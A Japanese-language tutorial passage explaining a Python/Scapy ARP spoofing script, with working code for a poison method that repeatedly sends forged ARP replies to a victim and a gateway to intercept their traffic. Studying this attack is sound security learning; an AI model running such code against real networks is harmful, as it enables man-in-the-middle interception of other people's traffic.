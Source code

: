`self.victim`や`self.gateway`には実行時に指定するIPアドレスが入る。

そしてターゲットのMACアドレスが`self.victimmac`、ゲートウェイのMACアドレスが`self.gatewaymac`。

👆特に`victimmac`と`gatewaymac`については後々重要になってくる。

### poisonメソッド

poisonメソッドはポイズンパケットを作って、ターゲットとゲートウェイに送る。

```python
def poison(self):        
        # poisoned ARP packet for the victim
        poison_victim = ARP()
        poison_victim.op = 2  # ARP 応答
        poison_victim.psrc = self.gateway
        poison_victim.pdst = self.victim
        poison_victim.hwdst = self.victimmac
        print(f'ip src: {poison_victim.psrc}')
        print(f'ip dst: {poison_victim.pdst}')
        print(f'mac src: {poison_victim.hwsrc}')
        print(f'mac dst: {poison_victim.hwdst}')
        print(poison_victim.summary())
        print('-' * 30)

        # poisoned ARP packet for the gateway
        poison_gateway = ARP()
        poison_gateway.op = 2
        poison_gateway.psrc = self.victim
        poison_gateway.pdst = self.gateway
        poison_gateway.hwdst = self.gatewaymac
        print(f'ip src: {poison_gateway.psrc}')
        print(f'ip dst: {poison_gateway.pdst}')
        print(f'mac src: {poison_gateway.hwsrc}')
        print(f'mac dst: {poison_gateway.hwdst}')

        while True:
            sys.stdout.write('.')
            sys.stdout.flush()
            try:
                send(poison_victim)
                send(poison_gateway)
            except KeyboardInterrupt:
                self.restore()
                sys.exit()
            else:
                time.sleep(2)
```

ARPパケットのopっていうのはオプションコードのこと：

- 1 → ARP要求
- 2 → ARP応答
